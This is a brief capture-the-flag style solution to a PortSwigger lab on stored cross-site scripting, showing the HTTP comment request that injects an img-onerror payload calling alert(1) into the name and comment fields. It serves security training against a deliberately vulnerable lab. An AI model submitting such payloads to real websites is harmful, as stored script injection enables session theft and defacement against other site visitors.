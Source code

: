 # [Lab: Stored XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)

## Lab

This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the `alert` function when the blog post is viewed.

## Solutions

post a comment:

```http
POST /post/comment HTTP/1.1

csrf=70TIgkUJzoQ04u3B6Iguus6KDwyWM6EA&postId=8&comment=%3Cimg+src%3D1+onerror%3Dalert%281%29%3E&name=%3Cimg+src%3D1+onerror%3Dalert%281%29%3E&email=a%40a.a&website=
```
